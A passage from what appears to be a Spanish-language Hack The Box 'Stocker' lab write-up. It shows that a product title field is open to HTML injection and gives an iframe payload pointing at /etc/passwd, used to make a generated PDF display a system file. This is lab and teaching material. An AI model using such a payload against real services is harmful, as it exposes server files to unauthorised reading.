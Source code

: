 ![](/assets/img/HTB/writeup-stocker/mariano-pdf1.png) _**Figure 14**: Cambio del Titulo del Producto Exitoso._

### HTML Injection 💉
Sacando conclusiones, seguramente podemos inyectar código HTML en el titulo.

```bash
# Inyectamos código HTML para conseguir ver mediante el PDF archivos de la máquina
--------------------------------------------------------------
<iframe src=/etc/passwd> </iframe>
```
